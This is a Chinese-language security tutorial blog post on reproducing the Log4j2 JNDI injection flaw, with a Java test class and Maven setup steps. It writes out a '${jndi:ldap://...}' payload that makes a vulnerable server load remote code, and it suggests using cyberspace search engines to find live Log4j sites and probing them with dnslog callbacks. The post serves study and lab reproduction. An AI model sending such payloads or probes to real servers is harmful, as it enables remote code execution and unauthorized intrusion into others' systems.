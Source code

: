 ```yaml
---
title: JavaEE应用&Log4j日志&FastJson序列化&JNDI注入
published: 2025-10-23
description: JavaEE第三方组件的调用以及对JNDI的认识。
tags: [JavaEE,安全开发]
category: 网络安全
draft: false
---
```


# JavaEE应用&第三方组件&Log4j日志&FastJson序列化&JNDI注入

## Java—三方组件—Log4J&JNDI

### Log4j

**可以利用网络空间查询哪些站用了log4j，把利用代码的IP地址改为dnslog地址，如果有回显就说明漏洞存在。**

Apache 的一个开源项目，通过使用Log4j，我们可以控制日志信息输送的目的地是控制台、文件、 GUI 组件，甚至是套接口服务器、NT的事件记录器、UNIX Syslog守护进程等；我们也可以控制每一条日志的输出格式；通过定义每一条日志信息的级别，我们能够更加细致地控制日志的生成过程。最令人感兴趣的就是，这些可以通过一个配置文件来灵活地进行配置，而不需要修改应用的代码。

#### Log4j组件安全复现

1. Maven引用Log4j
2. 接受用户输入值
3. Log4j处理错误输入

4. 利用jndi-ldap执行

Test:

String code="test";

String code="${java:os}";

logger.error("{}",code);

String exp="${jndi:ldap://xx.xx.xx.xx:xx/xxx}";

在idea中直接在xml文件写入log4j依赖，更新maven就会在外部库中看到，这样就是引入成功了。

之后可以创建Log4jTest.java，log4j是开源的日志记录框架，用于记录程序输入输出日志信息，log4j2 中存在JNDI注入漏洞，当程序记录用户输入的数据时，即可触发该漏洞，成功利用该漏洞可在目标服务器上执行任意代码。

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4jTest {

    private static  final Logger logger= LogManager.getLogger(Log4jTest.class);

    public static void main(String[] args) {

        // 如果这个code变量是可控的，
        String code =  "${java:os}";
        logger.error("{}",code);
    }
}
```
